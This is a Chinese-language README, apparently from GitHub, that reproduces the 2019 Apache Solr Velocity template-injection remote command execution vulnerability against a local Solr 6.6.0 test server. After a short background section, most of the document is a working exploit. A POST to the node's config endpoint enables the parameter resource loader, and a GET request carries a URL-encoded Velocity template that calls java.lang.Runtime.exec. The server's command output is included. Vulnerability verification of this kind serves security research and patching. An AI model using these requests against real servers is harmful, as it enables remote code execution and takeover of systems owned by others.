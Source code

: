 ## Apache Solr Velocity模版注入远程命令执行漏洞验证

### 1.背景

2019年10月31日，国内安全媒体纰漏，国外的安全研究员S00pY在GitHub发布了Apache Solr Velocity模版注入远程命令执行的poc，经验POC真实有效，定级为严重；  

国内媒体的预警： https://mp.weixin.qq.com/s/RWG7nxwCMtlyPnookXlaLA  

### 2. 漏洞详情

1. 当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。  
2. Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的   params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。   
3. 当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。



### 3. 漏洞验证 

### 1. 下载solr-6.6.0，运行开启服务

	/Users/snow/Files/solr-6.6.0/bin
	bogon:bin snow$ ls
	init.d                  post                    solr.in.cmd
	install_solr_service.sh solr                    solr.in.sh
	oom_solr.sh             solr.cmd
	bogon:bin snow$ ./solr -e dih
	
	Starting up Solr on port 8983 using command:
	"/Users/snow/Files/solr-6.6.0/bin/solr" start -p 8983 -s "/Users/snow/Files/solr-6.6.0/example/example-DIH/solr"
	
	Waiting up to 180 seconds to see Solr running on port 8983 [\]
	Started Solr server on port 8983 (pid=24330). Happy searching!

	Solr dih example launched successfully. Direct your Web browser to http://localhost:8983/solr to visit the Solr Admin UI
	bogon:bin snow$
	
访问服务：http://localhost:8983/solr/#/   
![](https://github.com/shadow-horse/Apache-Solr-Velocity-RCE/blob/master/localhostpng.png)

### 2. 访问具体的节点，查看conf配置 
![](https://github.com/shadow-horse/Apache-Solr-Velocity-RCE/blob/master/nodes.png)  

![](https://github.com/shadow-horse/Apache-Solr-Velocity-RCE/blob/master/config.png)


### 3. 更改配置，执行命令

1. 利用config，更改配置，通过POST提交JSON格式请求

		POST /solr/solr/config HTTP/1.1
		Host: localhost:8983
		Content-Type: application/json
		Content-Length: 259
		
		{
 		 "update-queryresponsewriter": {
   		 "startup": "lazy",
   		 "name": "velocity",
   		 "class": "solr.VelocityResponseWriter",
   		 "template.base.dir": "",
   		 "solr.resource.loader.enabled": "true",
   		 "params.resource.loader.enabled": "true"
 		 }
		}
		
		
		HTTP/1.1 200 OK
		Content-Type: text/plain;charset=utf-8
		Content-Length: 149

		{
  		"responseHeader":{
  			"status":0,
    		"QTime":263},
  		"WARNING":"This response format is experimental.  It is likely to change in the future."}  
  		
  		

2. 执行命令：  
select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

		GET /solr/solr/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
		Host: localhost:8983
		Content-Length: 2
		User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
		Accept: application/json,text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
		Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
		Accept-Encoding: gzip, deflate
		Connection: close
		Upgrade-Insecure-Requests: 1
		Content-Length: 0

		
		
		HTTP/1.1 200 OK
		Content-Type: text/html;charset=utf-8
		Content-Length: 344

 		0 uid=501(snow) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)  
 		
 		




参考：   
https://mp.weixin.qq.com/s/RWG7nxwCMtlyPnookXlaLA   
 
https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt  

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt  

	